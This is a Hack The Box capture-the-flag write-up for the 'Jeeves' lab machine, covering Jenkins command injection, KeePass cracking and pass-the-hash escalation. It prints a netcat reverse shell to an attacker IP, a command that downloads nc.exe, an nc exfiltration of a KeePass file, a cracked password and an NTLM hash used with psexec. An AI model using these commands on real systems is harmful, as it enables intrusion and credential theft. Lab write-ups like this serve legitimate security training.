 ```yaml
---
title: "Jeeves"
date: 2025-01-06
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "jeeves", "htb writeup", "htb walkthrough", "hackthebox", "writeup"]
---
```


# Enumeration

- Microsoft SQL server 2005 
- Jetty 9.4.z-SNAPSHOT
- jenkins 2.87

# Initial Access
- Jenkins create and modifying project 
- modify command on command injection

# Privilege Escalation
- Cracking the `.kdbx` file gives password
- Opening the database gives NTLM hash 
- Pass the hash to gain shell as admin.

# Nmap
## TCP
```sh
PORT      STATE SERVICE      REASON  VERSION
80/tcp    open  http         syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
445/tcp   open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         syn-ack Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## UDP
![[Pasted image 20240722145026.png]]

# Foothold
https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security/jenkins-rce-creating-modifying-project

![[Pasted image 20240724122027.png]]
-> didn't work 

![[Pasted image 20240724121937.png]]

![[Pasted image 20240724132338.png]]
- Windows batch command

```sh
# download nc and connect to kali
powershell wget "10.10.14.42/nc.exe" -e Outfile "nc.exe"
nc.exe -e cmd.exe 10.10.14.42 9001
```

![[Pasted image 20240724132746.png]]

![[Pasted image 20240724133024.png]]

![[Pasted image 20240724141128.png]]

```powershell
# target
nc.exe 10.10.14.42 5555 < CEH.kdbx
# kali
rlwrap nc -lvnp 5555 > CEH.kdbx
```

![[Pasted image 20240724143230.png]]

![[Pasted image 20240724143700.png]]

```text
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```

# 80-HTTP
![[Pasted image 20240722143917.png]]

![[Pasted image 20240722143948.png]]

https://www.exploit-db.com/exploits/50438
![[Pasted image 20240722144729.png]]

```sh
curl 'http://10.10.10.63:80/%2e/WEB-INF/web.xml'
```

```sh
gobuster vhost -u http://10.10.10.63 -t 50 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

![[Pasted image 20240722154240.png]]

![[Pasted image 20240722154317.png]]

# 50000-HTTP
![[Pasted image 20240724103717.png]]
## CEH.kdbx
```sh
#Install keepass tools like keepass2john
sudo apt-get install -y kpcli 
#The keepass is only using password
keepass2john CEH.kdbx > hash
# The keepass is also using a file as a needed credential
keepass2john -k <file-password> file.kdbx > hash
#The keepass can use a password and/or a file as credentials, if it is using both you need to provide them to keepass2john
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

![[Pasted image 20240724104535.png]]

```text
moonshine1
```

![[Pasted image 20240724104922.png]]

Create unrestricted global credential
![[Pasted image 20240724105451.png]]
`admin : password`

# Privilege Escalation
## Pass the Hash (PtH)
```sh
# pass the hash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 Administrator@10.10.10.63
```

![[Pasted image 20240724144832.png]]

![[Pasted image 20240724145002.png]]

![[Pasted image 20240724145610.png]]

The `dir /r` command in Windows displays the contents of a directory, including the alternate data streams (ADS) for files if they exist. Alternate data streams are a feature of the NTFS file system that allows data to be associated with a file without affecting the file's primary data stream.

```sh
# show contents of directory including ADS 
dir /r
more < hm.txt:root.txt
```
